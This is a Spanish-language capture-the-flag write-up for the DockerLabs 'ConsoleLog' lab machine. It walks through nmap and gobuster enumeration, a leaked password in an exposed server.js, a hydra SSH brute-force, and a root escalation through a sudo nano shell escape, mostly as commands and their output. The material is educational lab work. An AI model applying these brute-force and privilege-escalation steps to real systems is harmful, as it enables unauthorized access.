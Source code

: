 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ConsoleLog DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip consolelog.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh consolelog.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 14:19 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000027s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Mi Sitio
3000/tcp open  http    Node.js Express framework
|_http-title: Error
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
|_  256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

Vemos que el `SSH` esta en el puerto `5000` de primeras, si entramos en el puerto `80` veremos una pagina aparentemente normal, pero si realizamos un poco de `fuzzing` veremos lo siguiente:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/backend              (Status: 200) [Size: 1563]
/index.html           (Status: 200) [Size: 234]
/javascript           (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un directorio bastante interesante llamado `/backend` y si entramos dentro el unico archivo que nos va a interesar es el llamado `server.js` que contendra lo siguiente:

## Escalate user lovely

```javascript
const express = require('express');
const app = express();

const port = 3000;

app.use(express.json());

app.post('/recurso/', (req, res) => {
    const token = req.body.token;
    if (token === 'tokentraviesito') {
        res.send('lapassworddebackupmaschingonadetodas');
    } else {
        res.status(401).send('Unauthorized');
    }
});

app.listen(port, '0.0.0.0', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});
```

Vemos que es una posible contraseña de algun usuario del sistema, por lo que intentaremos realizar fuerza bruta con `hydra`:

## Hydra

```shell
hydra -L <WORDLIST> -p lapassworddebackupmaschingonadetodas ssh://<IP> -s 5000 -t 64 -I 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-21 14:28:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 624370 login tries (l:624370/p:1), ~9756 tries per task
[DATA] attacking ssh://172.17.0.2:5000/
[STATUS] 505.00 tries/min, 505 tries in 00:01h, 623907 to do in 20:36h, 22 active
[STATUS] 441.00 tries/min, 1323 tries in 00:03h, 623092 to do in 23:33h, 19 active
[STATUS] 383.00 tries/min, 2681 tries in 00:07h, 621736 to do in 27:04h, 17 active
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Y vemos que obtenemos las credenciales del usuario `lovely`, por lo que nos conectaremos por `ssh`.

## SSH

```shell
ssh lovely@<IP> -p 5000
```

Metemos como contraseña `lapassworddebackupmaschingonadetodas` y veremos que estamos dentro como dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for lovely on 1db80b165ab8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User lovely may run the following commands on 1db80b165ab8:
    (ALL) NOPASSWD: /usr/bin/nano
```

Veremos que podemos ejecutar el binario `nano` como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo nano
^R^X
reset; bash 1>&0 2>&0
```

Info:

```
root@1db80b165ab8:/home/lovely# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
